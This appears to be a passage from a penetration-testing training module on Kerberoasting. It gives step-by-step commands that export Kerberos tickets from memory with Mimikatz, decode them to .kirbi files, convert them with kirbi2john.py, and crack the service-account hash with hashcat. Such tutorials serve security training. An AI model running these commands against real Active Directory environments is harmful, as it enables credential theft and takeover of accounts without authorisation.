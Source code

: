 ## Extracting Tickets from Memory With Mimikatz
```cmd-session
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export
```

Without specifying `base64 /out:true`, Mimikatz will write the extracted tickets to .kirbi files. If we can move files to our attack host it can be easier to crack the tickets.

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

### Preparing the Base64 Blob for Cracking
```shell-session
$ echo "<base64 blob>" |  tr -d \\n 
```

We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

### Placing the Output into a File as .kirbi
```shell-session
$ cat encoded_file | base64 -d > sqldev.kirbi
```

Next, we can use [this](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) version of the `kirbi2john.py` tool to extract the Kerberos ticket from the TGS file (this is not always needed).

### Extracting the Kerberos Ticket using kirbi2john.py
```shell-session
$ python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

### Modifying crack_file for Hashcat
```shell-session
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Cracking the Hash with Hashcat
```shell-session
$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.
